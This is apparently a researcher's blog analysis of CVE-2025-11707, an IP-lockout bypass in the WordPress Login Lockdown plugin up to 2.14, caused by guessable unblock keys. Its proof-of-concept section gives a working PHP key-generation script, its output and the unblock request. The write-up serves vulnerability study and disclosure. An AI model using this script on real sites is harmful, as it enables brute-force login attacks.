




<!--more-->

## CVE & Basic Info

The Login Lockdown & Protection plugin for WordPress contains a vulnerability that allows **bypassing the IP blocking mechanism** in all versions up to **2.14 (including 2.14)**. The root cause is that the `$unblock_key` is not sufficiently random, allowing **unauthenticated users** who can trigger the recovery flow (even without access to the administrator’s email) to **generate valid unblock keys for their own IP address**. This allows unauthenticated attackers to **bypass lockouts caused by multiple failed login attempts**.

* **CVE ID**: [CVE-2025-11707](https://www.cve.org/CVERecord?id=CVE-2025-11707)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 2.14
* **Patched Versions**: 2.15
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Login Lockdown Plugin](https://wordpress.org/plugins/login-lockdown/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – Login Lockdown**:

  * `2.14` – **vulnerable**
  * `2.15` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

> [!NOTE]
> According to the CVE description, the vulnerability allows attackers to bypass IP blocking after multiple failed logins.
> Before analyzing the bypass technique, it is necessary to understand **how the plugin implements the blocking mechanism**.

### Increment Fails

The plugin registers an action hook for failed login events:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_action('wp_login_failed', array('LoginLockdown_Functions', 'loginFailed'), 10, 2);
```

When a login attempt fails, WordPress calls `loginFailed()`:

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function loginFailed($username, $error)
{
    self::incrementFails($username, $error->get_error_code());
}
```

This function calls `incrementFails()` to store the failed attempt with the error code:

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function incrementFails($username = "", $reason = "")
{
    global $wpdb;
    $options = LoginLockdown_Setup::get_options();
    $ip = LoginLockdown_Utility::getUserIP();

    $username = sanitize_user($username);
    $user = get_user_by('login', $username);

    if ($user || 1 == $options['lockout_invalid_usernames']) {
      if ($user === false) {
        $user_id = -1;
      } else {
        $user_id = $user->ID;
      }

      //phpcs:ignore no need to cache
      $wpdb->insert( //phpcs:ignore
        $wpdb->lockdown_login_fails,
        array(
          'user_id' => $user_id,
          'login_attempt_date' => current_time('mysql'),
          'login_attempt_IP' => $ip,
          'failed_user' => $username,
          'reason' => $reason
        )
      );
    }
}
```

In the database, records are stored as follows:

```sh
mysql> select * from wp_login_fails;
+------------------+---------+---------------------+------------------+-------------+------------------+
| login_attempt_ID | user_id | login_attempt_date  | login_attempt_IP | failed_user | reason           |
+------------------+---------+---------------------+------------------+-------------+------------------+
|                5 |      -1 | 2026-01-22 03:07:05 | 172.18.0.1       | a           | invalid_username |
|                6 |      -1 | 2026-01-22 03:24:09 | 172.18.0.1       | a           | invalid_username |
+------------------+---------+---------------------+------------------+-------------+------------------+
```

Thus, every failed login is recorded along with IP, username, and error reason.

### Authentication & Block

The plugin directly interferes with the authentication process by registering the `authenticate` filter:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_filter('authenticate', array('LoginLockdown_Functions', 'wp_authenticate_username_password'), 20, 3);
```

The function `wp_authenticate_username_password()` is executed during login and controls whether authentication is allowed or blocked.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function wp_authenticate_username_password($user, $username, $password)
{
    if (is_a($user, 'WP_User')) {
      return $user;
    }

    $options = LoginLockdown_Setup::get_options();

    $whitelisted = false;
    $user_ip = LoginLockdown_Utility::getUserIP();
    if (in_array($user_ip, $options['whitelist'])) {
      $whitelisted = true;
    }

    if (!$whitelisted && self::isLockedDown()) {
      self::lockdown_screen($options['block_message']);
      return new WP_Error('lockdown_fail_count', __("<strong>ERROR</strong>: We're sorry, but this IP has been blocked due to too many recent failed login attempts.<br /><br />Please try again later.", 'login-lockdown'));
    }

    if (!$username) {
      return $user;
    }

    if (self::is_rest_request()) {
      return $user;
    }

    $captcha = self::handle_captcha();
    if (is_wp_error($captcha)) {
      if ($options['max_login_retries'] <= self::countFails($username) && self::countFails($username) > 0) {
        self::lockDown($username, 'Too many captcha fails');
      }
      return $captcha;
    }

    $userdata = get_user_by('login', $username);

    if (!$whitelisted && $options['max_login_retries'] <= self::countFails($username)) {
      if ($options['max_login_retries'] <= self::countFails($username) && self::countFails($username) > 0) {
        self::lockDown($username, 'Too many fails');
      }

      return new WP_Error('lockdown_fail_count', __("<strong>ERROR</strong>: We're sorry, but this IP has been blocked due to too many recent failed login attempts.<br /><br />Please try again later.", 'login-lockdown'));
    }

    if (empty($username) || empty($password)) {
      $error = new WP_Error();

      if (empty($username))
        $error->add('empty_username', __('<strong>ERROR</strong>: The username field is empty.', 'login-lockdown'));

      if (empty($password))
        $error->add('empty_password', __('<strong>ERROR</strong>: The password field is empty.', 'login-lockdown'));

      return $error;
    }

    if ($userdata === false) {
      /* translators: %s is the url of the WordPress lost password page. */
      return new WP_Error('invalid_username', sprintf(__('<strong>ERROR</strong>: Invalid username. <a href="%s" title="Password Lost and Found">Lost your password</a>?', 'login-lockdown'), site_url('wp-login.php?action=lostpassword', 'login')));
    }

    $userdata = apply_filters('wp_authenticate_user', $userdata, $password);
    if (is_wp_error($userdata)) {
      return $userdata;
    }

    if (!is_string($password) || !is_string($userdata->user_pass) || is_null($userdata->ID) || !wp_check_password($password, $userdata->user_pass, $userdata->ID)) {
      /* translators: %s is the url of the WordPress lost password page. */
      return new WP_Error('incorrect_password', sprintf(__('<strong>ERROR</strong>: Incorrect password. <a href="%s" title="Password Lost and Found">Lost your password</a>?', 'login-lockdown'), site_url('wp-login.php?action=lostpassword', 'login')));
    }

    $user =  new WP_User($userdata->ID);
    return $user;
}
```

1. **Skip if the user is already authenticated**

```php
if (is_a($user, 'WP_User')) {
    return $user;
}
```

If WordPress has already authenticated the user, the plugin does not intervene.

2. **Check whitelist and lockdown status**

```php
$user_ip = LoginLockdown_Utility::getUserIP();
if (in_array($user_ip, $options['whitelist'])) {
    $whitelisted = true;
}

if (!$whitelisted && self::isLockedDown()) {
    self::lockdown_screen($options['block_message']);
    return new WP_Error('lockdown_fail_count', 'IP has been blocked');
}
```

If the IP is not whitelisted and is currently locked, login is blocked immediately.

3. **Skip in some special cases**

```php
if (!$username) return $user;
if (self::is_rest_request()) return $user;
```

If there is no username or it is a REST request, the plugin does not apply login controls.

4. **Handle CAPTCHA**

```php
$captcha = self::handle_captcha();
if (is_wp_error($captcha)) {
    if ($options['max_login_retries'] <= self::countFails($username)) {
        self::lockDown($username, 'Too many captcha fails');
    }
    return $captcha;
}
```

If CAPTCHA fails and the failure count exceeds the threshold, the account/IP is locked.

5. **Check failed login attempts**

```php
if (!$whitelisted && $options['max_login_retries'] <= self::countFails($username)) {
    self::lockDown($username, 'Too many fails');
    return new WP_Error('lockdown_fail_count', 'IP has been blocked');
}
```

If the maximum number of allowed failures is exceeded, the plugin triggers the lockout mechanism.

> [!NOTE]
> `max_login_retries` is configured in the Admin Dashboard, with a default value of `3`.
> 

=> Thus, after **3 consecutive failed login attempts**, the IP is placed into a blocked state, and all subsequent login attempts from that IP are rejected immediately **at the beginning of the authentication process**.



### Get Unlock Key

To trigger the unlock process, the user must submit the recovery form with the **email of an administrator account**.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
if (!isset($_POST['loginlockdown_recovery_email']) || !filter_var(wp_unslash($_POST['loginlockdown_recovery_email']), FILTER_VALIDATE_EMAIL)) {
  $display_message = '<p class="error">Invalid email address.</p>';
} else {
  $email = sanitize_text_field(wp_unslash($_POST['loginlockdown_recovery_email']));
  $user = get_user_by('email', $email);        
  if (user_can($user, 'administrator')) {
    $unblock_key = md5(time() . wp_rand(10000, 9999));
    $unblock_attempts = get_transient('loginlockdown_unlock_count_' . $user->ID);
    if (!$unblock_attempts) {
      $unblock_attempts = 0;
    }

    $unblock_attempts++;
    set_transient('loginlockdown_unlock_count_' . $user->ID, $unblock_attempts, HOUR_IN_SECONDS);

    if ($unblock_attempts <= 3) {
      set_transient('loginlockdown_unlock_' . $unblock_key, $unblock_key, HOUR_IN_SECONDS);

      $unblock_url = add_query_arg(array('loginlockdown_unblock' => $unblock_key), wp_login_url());

      $subject  = 'Login Lockdown unblock instructions for ' . site_url();
      $message  = '<p>The IP ' . LoginLockdown_Utility::getUserIP() . ' has been locked down and someone submitted an unblock request using your email address <strong>' . $email . '</strong></p>';
      $message .= '<p>If this was you, and you have locked yourself out please click <a target="_blank" href="' . $unblock_url . '">this link</a> which is valid for 1 hour.</p>';
      $message .= '<p>Please note that for security reasons, this will only unblock the IP of the person opening the link, not the IP of the person who submitted the unblock request. To unblock someone else please do so on the <a href="' . admin_url('options-general.php?page=loginlockdown#loginlockdown_activity') . '">Login Lockdown Activity Page</p>';

      add_filter('wp_mail_content_type', function () {
        return "text/html";
      });

      wp_mail($user->user_email, $subject, $message);
    }
  } else {
    // If no admin using the submitted email exists, ignore silently
  }

  if (isset($unblock_attempts) && $unblock_attempts > 3) {
    $display_message = '<p class="error">You have already attempted to unblock yourself recently, please wait 1 hour before trying again.</p>';
  } else {
    $display_message = '<p>If an administrator having the email address <strong>' . $email . '</strong> exists, an email has been sent with instructions to regain access.</p>';
  }
}
```

1. **Verify whether the email belongs to an administrator**

```php
$email = sanitize_text_field(wp_unslash($_POST['loginlockdown_recovery_email']));
$user = get_user_by('email', $email);

if (user_can($user, 'administrator')) 
```

Only if the email belongs to an account with **administrator** privileges will the system proceed to generate an unlock key and send an email.

2. **Limit the number of unlock requests**

```php
$unblock_attempts = get_transient('loginlockdown_unlock_count_' . $user->ID);
$unblock_attempts++;
set_transient('loginlockdown_unlock_count_' . $user->ID, $unblock_attempts, HOUR_IN_SECONDS);
```

* Limit: maximum **3 times / 1 hour / per admin**
* The counter is tied to `user_id`, not to the **blocked IP**

=> If multiple admin accounts exist, each has its own quota, which can be abused.

3. **Generate `unblock_key` and store transient**

```php
$unblock_key = md5(time() . wp_rand(10000, 9999));
set_transient('loginlockdown_unlock_' . $unblock_key, $unblock_key, HOUR_IN_SECONDS);
```

`unblock_key` is generated from:

* `time()` => timestamp in seconds (predictable)
* `wp_rand(10000, 9999)` => returns only two possible values: `9999` and `10000`
* MD5 hash => does not increase entropy

The key is stored as a standalone transient, not bound to IP or user.

=> As long as an attacker can guess a valid key within the 1-hour validity window, they can unblock their current IP.

4. **Send unlock link via email**

```php
$unblock_url = wp-login.php?loginlockdown_unblock=<key>
wp_mail($user->user_email, ...);
```

The email contains an unlock link valid for 1 hour.
By design, the admin must click the link from the **blocked IP** to unblock that IP.

> [!NOTE]
> Therefore, the attacker **does not need access to the administrator’s email**.
> They only need to **send a recovery request to trigger key generation**, then **locally generate possible keys using the same algorithm** (based on `time()` and `wp_rand()`), and try them directly on:
>
> ```
> wp-login.php?loginlockdown_unblock=<key>
> ```
>
> Once a valid key that still exists in the transient is guessed, the current IP is **immediately unblocked**, allowing further password attempts.
>
> => This allows an attacker to **continuously unblock themselves**, completely neutralizing the plugin’s IP blocking mechanism.

### Unlock

The plugin registers a hook very early in the request lifecycle:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_action('init', array('loginlockdown', 'init'), -1);
```

Inside `init()`, the plugin directly calls:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
LoginLockdown_Functions::handle_unblock();
```

This means **every request to WordPress**, even before login page rendering or authentication checks, will execute the unblock logic if the parameter exists:

```php
?loginlockdown_unblock=...
```

=> Any HTTP request with this parameter can trigger the unblock logic.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function handle_unblock()
{
  global $wpdb;
  //phpcs:ignore missing nonce as this is called via a link in email or stored by user
  $options = LoginLockdown_Setup::get_options();
  if (isset($_GET['loginlockdown_unblock']) && $options['global_unblock_key'] === sanitize_text_field(wp_unslash($_GET['loginlockdown_unblock']))) { //phpcs:ignore
    $user_ip = LoginLockdown_Utility::getUserIP();
    if (!in_array($user_ip, $options['whitelist'])) {
      $options['whitelist'][] = LoginLockdown_Utility::getUserIP();
    }
    update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
  }

  if (isset($_GET['loginlockdown_unblock']) && strlen($_GET['loginlockdown_unblock']) == 32) { //phpcs:ignore
    $unblock_key = sanitize_key(wp_unslash($_GET['loginlockdown_unblock'])); //phpcs:ignore
    $unblock_transient = get_transient('loginlockdown_unlock_' . $unblock_key);
    if ($unblock_transient == $unblock_key) {
      $user_ip = LoginLockdown_Utility::getUserIP();
      //phpcs:ignore no need to cache
      $wpdb->delete( //phpcs:ignore
        $wpdb->lockdown_lockdowns,
        array(
          'lockdown_IP' => $user_ip
        )
      );

      if (!in_array($user_ip, $options['whitelist'])) {
        $options['whitelist'][] = LoginLockdown_Utility::getUserIP();
      }

      update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
    }
  }
}
```

This function supports two IP unlock mechanisms.

1. **Unlock using Global Unblock Key**

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
if (isset($_GET['loginlockdown_unblock']) 
    && $options['global_unblock_key'] === sanitize_text_field($_GET['loginlockdown_unblock'])) {

    $user_ip = LoginLockdown_Utility::getUserIP();
    if (!in_array($user_ip, $options['whitelist'])) {
        $options['whitelist'][] = $user_ip;
    }
    update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
}
```

If the parameter matches the **global key in configuration**, the current IP is:

* Added to the whitelist
* No longer permanently blocked

This mechanism fully relies on keeping the **global key** secret.



2. **Unlock using Recovery Key (Transient)**

```php
if (isset($_GET['loginlockdown_unblock']) && strlen($_GET['loginlockdown_unblock']) == 32) {
    $unblock_key = sanitize_key($_GET['loginlockdown_unblock']);
    $unblock_transient = get_transient('loginlockdown_unlock_' . $unblock_key);

    if ($unblock_transient == $unblock_key) {
        $wpdb->delete($wpdb->lockdown_lockdowns, array('lockdown_IP' => $user_ip));

        if (!in_array($user_ip, $options['whitelist'])) {
            $options['whitelist'][] = $user_ip;
        }
        update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
    }
}
```

This is the unlock mechanism based on the **recovery key stored in transient**.
The plugin only checks two conditions:

1. The `loginlockdown_unblock` parameter has length **32 characters** (MD5-like)
2. A transient `loginlockdown_unlock_<key>` exists with a matching value

If satisfied, the current IP will be:

* Removed from `lockdown_lockdowns` table
* Added to the whitelist

=> The IP is immediately unblocked and no longer blocked on subsequent login attempts.

This key was analyzed in the previous section.

## Flow



## Proof of Concept (PoC)

1. Create file `gen_key.php` to guess unlock keys after being blocked

```php
<?php

$url = "http://localhost/wp-login.php";

$data = http_build_query([
    "loginlockdown_recovery_email"  => "admin_email",
    "loginlockdown_recovery_submit" => "Send unblock email",
    "loginlockdown_recovery_nonce"  => "valid_nonce",
    "_wp_http_referer"               => "/wp-login.php",
]);

$opts = [
    "http" => [
        "method"  => "POST",
        "header"  =>
            "Content-Type: application/x-www-form-urlencoded\r\n" .
            "Referer: http://localhost/wp-login.php\r\n" .
            "User-Agent: PHP\r\n" .
            "Cookie: wordpress_test_cookie=WP%20Cookie%20check\r\n",
        "content" => $data,
        "ignore_errors" => true
    ]
];

$context = stream_context_create($opts);
$response = file_get_contents($url, false, $context);

echo $response;

$now = time();

for ($t = $now - 1; $t <= $now + 1; $t++) {
    for ($r = 9999; $r <= 10000; $r++) {
        echo md5($t . $r) . PHP_EOL;
    }
}
```

> [!NOTE]
> Since `unblock_key` is generated using `time()` (with **second-level precision**), the attacker only needs to generate keys within **±1 second** of the recovery request time.
> For each timestamp there are very few possible random values, making the total search space **extremely small**, allowing all valid keys to be tested quickly while the transient is still valid.

2. Run `gen_key.php` to obtain keys:

```php
┌──(w41🎃w41)-[~/Pentest/tmp]
└─$ gen_key.php 
... 
98b65fa71ca7a0f5aeefc93082c6a381
72a72562252bcd5c005bfbce95d72bea
f98100c86d0bd348eeb18332ac85756b
63894ea709e4be84967328ad37392043
f67370456015246850e783fbb406a176
bf31356071a060b3d9d12d9dc3711b30
```

**Key stored in database**:

```sh
mysql> SELECT option_name, option_value  FROM wp_options  WHERE option_name LIKE '%loginlockdown_unlock_%';
+--------------------------------------------------------------------------+----------------------------------+
| option_name                                                              | option_value                     |
+--------------------------------------------------------------------------+----------------------------------+
| _transient_timeout_loginlockdown_unlock_count_1                          | 1769100607                       |
| _transient_loginlockdown_unlock_count_1                                  | 1                                |
| _transient_timeout_loginlockdown_unlock_f98100c86d0bd348eeb18332ac85756b | 1769100607                       |
| _transient_loginlockdown_unlock_f98100c86d0bd348eeb18332ac85756b         | f98100c86d0bd348eeb18332ac85756b |
+--------------------------------------------------------------------------+----------------------------------+
```

=> Matches the key generated above

3. Send unlock request

```http
GET /?loginlockdown_unblock=f98100c86d0bd348eeb18332ac85756b HTTP/1.1
Host: localhost
```



## Conclusion

The vulnerability in **Login Lockdown & Protection ≤ 2.14** originates from an insecure recovery mechanism design. Although the unlock workflow is intended to require administrator confirmation via email, in practice, **the generation and validation of `unblock_key` are not bound to any user, IP, or session**, and rely on extremely low-entropy sources. This allows unauthenticated attackers to **generate and test valid keys within a short time window**, thereby unblocking their own IP without needing access to the administrator’s email. As a result, the entire IP blocking mechanism after multiple failed login attempts can be effectively neutralized.

## Key Takeaways

* Security mechanisms based on **email confirmation** are meaningless if the **token can be guessed**.
* Tokens used for sensitive actions must have **high entropy** and must not rely on `time()` or small random spaces.
* Recovery tokens should be **bound to context** (IP, user, session, or request), rather than existing independently in the system.
* Attaching unlock logic to the `init` hook allows the unlock endpoint to be triggered by **any request**, increasing the attack surface.
* Rate-limiting mechanisms that are bound only to **user ID**, and not to IP or request source, can be abused in unauthenticated attack scenarios.

## References

[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Login Lockdown Plugin <= 2.14 is vulnerable to Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/login-lockdown/vulnerability/wordpress-login-lockdown-protection-plugin-2-14-ip-block-bypass-vulnerability)
